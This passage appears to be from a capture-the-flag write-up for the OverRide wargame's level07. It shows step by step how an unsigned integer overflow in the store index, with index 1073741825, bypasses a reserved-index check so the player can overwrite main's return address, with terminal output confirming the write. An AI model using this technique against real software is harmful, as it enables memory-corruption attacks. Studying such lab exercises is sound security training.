 Let's try to grep the value we are looking for

```
level07@OverRide:~$ cat /tmp/output07 | grep "4158936339"
Input command:  Index:  Number at data[114] is 4158936339
```

Now we know the `main`'s return value is located at `index` 114, let's try to replace it with the `store_number` function to test the vulnerability

```
Input command: store
 Number: 42
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
```

We can't direclty write on the index 114 because 114 % 3 = 0

We will have to bypass this check, let's analyse the code to find a flaw

First we test the index and number values

```c
if (index % 3 == 0 || HIBYTE(number) == 183)
```

Then we store the number

The opertaion resides in a single line of code

```c
*(int *)(storageAddress + 4 * index) = number;
```

The index passed by the user is multiplied by 4 and added to the `storage` buffer address so we can try overflowing the result

If we give ( `UINT_MAX` + 1 ) / 4 as index, the number will be multiplied by 4 which will result in `UINT_MAX` + 1 which willl overflow to 0

Let's verify this on the index 1
```
UINT_MAX = 4 294 967 295
4 294 967 295 + 1 = 4 294 967 296 (UINT_MAX + 1)
4 294 967 296 / 4 = 1 073 741 824 ((UINT_MAX + 1) / 4 = index 0) 
1 073 741 824 + 1 = 1 073 741 825 (index 1)
```

By giving 1 073 741 825 as index we should overflow and get index 1

1073741825

Let's try it

```
Input command: read
 Index: 1
 Number at data[1] is 0
 Completed read command successfully
Input command: store
 Number: 42
 Index: 1073741825
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 42
 Completed read command successfully
```
